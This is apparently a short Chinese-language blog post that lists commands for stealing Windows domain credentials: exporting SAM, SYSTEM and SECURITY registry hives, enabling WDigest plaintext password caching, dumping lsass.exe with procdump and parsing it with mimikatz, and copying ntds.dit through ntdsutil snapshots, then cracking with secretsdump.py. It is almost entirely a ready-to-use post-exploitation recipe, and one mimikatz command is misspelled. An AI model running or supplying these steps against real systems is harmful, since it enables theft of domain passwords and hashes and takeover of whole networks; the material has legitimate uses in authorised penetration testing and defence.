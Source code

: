 # 离线提取域控HASH的方法




## 1.注册表提取

提取文件，Windows Server 2003或者Win XP 及以前需要提升到system权限，以后只要Administrator权限即可。

```verilog
reg save hklm\sam sam.hive
reg save hklm\system system.hive
reg save hklm\security secruity.hive
```





本地获取：

```dockerfile
# 如果要提取明文，请修改注册表
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

# 破解hash
python ./secretsdump.py -sam ~/Desktop/sam.hive  -security ~/Desktop/security.hive -system ~/Desktop/system.hive  LOCAL
```



## 2.lsass.exe提取

```bash
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz#privilege::debug
mimikatz#sekurlsa::minidump lsass.dmp
mimikatz#sekrulsa::logonpasswords full  

```









## 3.ntds.dit提取

```bash
ntdsutil snapshot "activate instance ntds" create quit quit
ntdsutil snapshot "mount {GUID}" quit quit
copy MOUNT_POINT\windows\ntds\ntds.dit c:\temp\ntds.dit
ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit

```















---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/%E7%A6%BB%E7%BA%BF%E6%8F%90%E5%8F%96%E5%9F%9F%E6%8E%A7hash%E7%9A%84%E6%96%B9%E6%B3%95/  

